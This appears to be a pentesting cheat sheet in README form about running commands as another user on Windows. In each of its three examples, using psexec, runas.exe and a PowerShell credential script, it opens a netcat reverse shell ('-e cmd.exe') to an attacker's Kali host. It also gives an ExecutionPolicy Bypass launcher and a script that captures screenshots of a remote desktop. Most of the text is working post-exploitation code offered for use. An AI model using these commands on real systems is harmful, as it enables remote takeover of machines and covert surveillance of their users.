 Switching users in linux is trival with the SU command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.

Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

```cmd
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
 PsExec v2.2 - Execute processes remotely
 Copyright (C) 2001-2016 Mark Russinovich
 Sysinternals - www.sysinternals.com
 ```
 
Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:
```cmd
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
```

PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.
```powershell
 $username = '<username here>'
 $password = '<password here>'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```
Next run this script using powershell.exe:
```cmd
CMD C:\> powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

# Other files
Here are few other handy scripts and things...

## Capture a screen shot
The following powershell commands can be used to capture a screen shot of the remote computers desktop and store it as a BMP file.
```powershell
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
$bitmap = New-Object System.Drawing.Bitmap $Screen.Width, $Screen.Height
$graphic = [System.Drawing.Graphics]::FromImage($bitmap)
$graphic.CopyFromScreen($Screen.Left, $Screen.Top, 0, 0, $bitmap.Size)
$bitmap.Save('screen1.bmp')
```
If you are on CMD you can use this handy one-liner to execute the same powershell command
```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "Add-Type -AssemblyName System.Windows.Forms; Add-type -AssemblyName System.Drawing; $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen; $bitmap = New-Object System.Drawing.Bitmap $Screen.Width, $Screen.Height; $graphic = [System.Drawing.Graphics]::FromImage($bitmap); $graphic.CopyFromScreen($Screen.Left, $Screen.Top, 0, 0, $bitmap.Size); $bitmap.Save('screen1.bmp')"
```
